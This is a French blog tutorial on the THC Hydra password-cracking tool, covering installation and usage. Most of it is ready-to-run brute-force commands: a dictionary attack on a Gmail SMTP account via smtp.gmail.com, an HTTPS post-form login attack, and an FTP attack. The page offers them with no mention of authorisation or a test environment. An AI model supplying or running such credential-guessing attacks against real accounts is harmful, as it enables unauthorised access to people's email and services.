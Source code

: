 ```yaml
---
title: Hydra, un outil de craquage de mot de passe
author: Davistar
layout: post
permalink: /hacking/cracking_hydra_linux.html
read_time: true
category: hacking
image: /techlovers/assets/2018-10-25/image1hydra.jpeg
redirect_to:
  - https://thelinuxcamp.github.io/hacking/cracking_hydra_linux.html
---
```


&nbsp;

## Qu'est-ce que Hydra ?
THC Hydra est un outil de piratage de mots de passe capable d’exécuter des attaques de dictionnaire très rapides contre plus de cinquante protocoles. 
C'est un outil de piratage de connexion réseau rapide et stable qui utilise des attaques par dictionnaire ou par force brute pour essayer diverses combinaisons de mots de passe et de connexion sur une page de connexion.

## Quelles sont les utilisations typiques de THC Hydra ?
Hydra est utilisé en tant que pirate de connexion parallélisé prenant en charge de nombreux protocoles d’attaque. Les nouveaux modules sont faciles à ajouter. Cet outil montre à quel point il est facile d’obtenir un accès non autorisé à distance.

## Installer Hydra

Hydra est très simple d'installation. Sous Parrot et Kali, Hydra est déjà pré-installé.

### Sur Linux

{% highlight bash %}
$ sudo apt update && apt upgrade -y && apt install hydra -y
# sudo apt install hydra-gtk si vous voulez hydra en GUI
{% endhighlight %}

## Comment Utiliser Hydra : 

Pour afficher l'aide de Hydra 

{% highlight bash %}
$ sudo hydra -h
{% endhighlight %}

### Cracker un compte smtp avec Hydra via un dictionnaire :
Explication en vidéo ici => [https://www.youtube.com/watch?v=3i2fx_kBVwA&t=0s](https://www.youtube.com/watch?v=3i2fx_kBVwA&t=0s)

Notre serveur smtp : smtp.gmail.com
Notre port smtp : 465 ou 587

{% highlight bash %}
$ sudo hydra -l target@gmail.com -P wordlist.txt -S 465 -v -V -t 1 smtp.gmail.com smtp
{% endhighlight %}

 > -l = précise le login
 > -P = précise la wordlist
 > -S = précise le port
 > -v = pour rendre l'attaque verbeuse
 > -t = le nombre de threads
 > smtp = le protocole de l'attaque

### Cracker un compte via une page login post form :

{% highlight bash %}
$ hydra <IP> https-post-form "/login/login.php:user=admin&password=^PASS^ :F=failed" -l admin -P wordlist.txt -t 1 -V
{% endhighlight %}

### Cracker un compte FTP via Hydra

{% highlight bash %}
$ hydra -l admin -P passlist.txt ftp://192.168.1.70
{% endhighlight %}
